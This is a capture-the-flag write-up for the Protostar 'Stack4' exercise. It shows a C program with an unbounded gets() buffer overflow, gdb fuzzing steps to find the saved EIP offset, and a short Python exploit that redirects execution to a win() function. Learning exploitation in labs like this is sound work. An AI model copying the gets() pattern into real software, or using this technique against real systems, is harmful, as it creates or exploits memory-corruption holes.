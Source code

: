 # [cd ../](../index.md)
# Stack4
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

> Hints
- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Fuzzing
- modify the previous exploit we made by make a random padding
  ```
  AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ```
- make a **file** from *output* and use this as **input** str in `gdb`  
```
python stack4.py > stack4_exp
gdb stack4
r < stack4_exp
info registers
```
- We got a segfault
![segfault](segfault.png)  
- We can see it segfaulted at `ebp` = `0x53535353` this is `S` and `eip` = `0x54545454` and this is character `T`
- Run `objdump -t stack4` and find win `objdump -t stack4 | grep win`
  - `win` is at `080483f4`
- We have to control these so change the code like:  
```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR'
ebp = 'AAAA' # ebp - junk
eip = struct.pack('I', 0x080483f4) # eip
print padding+ebp+eip
```
- We have to create a file from the code output now then run in gdb  
`python stack4_2.py > stack4_2_exp`  
![pwned](pwned.png)

# OH YEAH WE GOT IT
